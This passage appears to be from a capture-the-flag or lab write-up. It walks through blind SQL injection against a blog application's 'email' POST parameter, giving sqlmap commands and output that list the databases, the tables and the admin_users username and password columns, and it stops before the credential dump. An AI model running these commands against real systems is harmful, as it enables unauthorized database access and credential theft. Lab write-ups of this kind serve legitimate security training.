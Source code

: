 ```bash
POST parameter 'email' is vulnerable.
---
Parameter: email (POST)
Type: boolean-based blind
Type: time-based blind
---
```
####
As we already know, it can be exploited with injections based on (*time*, *boolean*), we can pass the <dbs> parameter to dump the database contents.
####
```perl
sqlmap -r req -p email --level 3 --batch --dbs
```
####
### SQLI dump tables:
With the previous command, **sqlmap** reports 3 databases that exist on the machine:
####
```js
[21:25:28] [INFO] resumed: information_schema
[21:25:28] [INFO] resumed: performance_schema
[21:25:28] [INFO] resumed: usage_blog
```
####
Now what we need to do is dump the tables that exist in those databases.
####
```perl
sqlmap -r req -p email --level 3 --batch --tables --dump
```
####
### SQLI dump columns:
With the previous **sqlmap** command, it reports 15 tables that exist on the machine.
####
```js
[21:25:39] [INFO] retrieved: admin_menu
[21:27:08] [INFO] retrieved: admin_operation_log
[21:29:28] [INFO] retrieved: admin_permissions
[21:31:19] [INFO] retrieved: admin_role_menu
[21:33:00] [INFO] retrieved: admin_role_permissions
[21:35:09] [INFO] retrieved: admin_role_users
[21:36:20] [INFO] retrieved: admin_roles
[21:36:52] [INFO] retrieved: admin_user_permissions
[21:39:31] [INFO] retrieved: admin_users
```
####
Now what we need to do is dump the columns that exist in the **admin_users** table, which is probably where valid users are.
####
```perl
sqlmap -r req -p email --level 3 --batch --columns -T admin_users --dump
```
####
### SQLI dump specified columns:
With the previous **sqlmap** command, it reports 15 tables that exist on the machine.
####
```js
[21:50:24] [INFO] retrieved: username
[21:51:28] [INFO] retrieved: password
```
####
Now what we need to do is dump the contents of the columns that exist in the **admin_users** table, is where probably are the valid credentials to achieve a authentication into tha target machine:
####